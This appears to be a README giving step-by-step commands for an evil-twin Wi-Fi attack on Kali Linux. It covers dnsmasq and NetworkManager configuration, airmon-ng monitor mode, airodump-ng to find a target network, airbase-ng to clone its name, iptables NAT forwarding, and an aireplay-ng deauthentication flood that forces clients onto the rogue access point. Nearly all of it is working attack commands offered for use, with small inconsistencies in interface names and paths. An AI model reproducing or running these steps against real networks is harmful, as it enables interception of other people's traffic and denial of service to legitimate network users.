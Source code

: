 How to Setup the Evil Network:
Follow this tutorial: https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/
This one is good too: rootsh3ll.com/evil-twin-attack/

# Prerequisites
- kali linux
- may need an external usb wifi adapter
- sudo apt-get instal dsniff

1. Update Device
	`sudo apt-get update`
	
2. Install dnsmasq
	`apt-get install dnsmasq`
	
3. Configure dns masq
	`mkdir /Desktop/eviltwin`
	`cd /Desktop/eviltwin`
	`touch dnsmasq.conf`
	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

4. Update NetworkManager.conf
	`vim /etc/NetworkManager/NetworkManager.conf`
	Add these lines to the end: 
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

5. Connect the usb network adapter
	see that it is connected with: `iwconfig`
	It should be named wlan0 or wlan1

5.5 Ensure the wireless card is not connected to internet
	`nmcli con`
	Disconnect from the network that is connected to our adapteriw
	`nmcli con down <UUID>`

6. Enable the wireless adapter
	`ifconfig wlan1 up`

7. Put the wireless card into network mode with airmon-ng
	- if you don't have the aircrack suite, google it and install it: https://www.aircrack-ng.org/doku.php?id=install_aircrack

	All the tutorials said to listen to airmon and `run airmon-ng check kill` as some services can interfere. But this never worked for me. So I ignore that suggestion.

	run: `airmon-ng start wlan1` to put card into monitor mode

8. Find the device to spoof and record the BSSID (mac address), channel, and ESSID
	 first update known manufacturer mac addresses of routers: `airodump-ng-oui-update`
	`airodump-ng wlan1mon`
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit `ctrl+c` and then copy that line to a text file

9. start up the evil twin AP (access point)
	Give the evil twin the same name as the network you are attacking for best results
	`airbase-ng -e "EvilTwinName" -c 11 wlan1mon`

10. Give the evil twin can access the internet.
	`ifconfig at0`
	give at0 an ip address: `ifconfig at0 10.0.0.1 up`

11. route all traffic through at0, this has had limited success.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

12. enable port forwarding: `echo 1 > /proc/sys/net/ipv4/ip_forward`

13. evil twin is now setup, now need to allocate ip addresses to clients
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`

14. NOW startup the webserver, see the tutorial for more info

15. Finally run the deauthorization attack and kick people off the legit network onto ours
	- TODO will add details on this later too

16. now deauthorize clients so they connect to our network
	aireplay-ng –deauth 0 -a <BSSID> wlan0mon

# Caveats
Only works for http websites, not https websites 





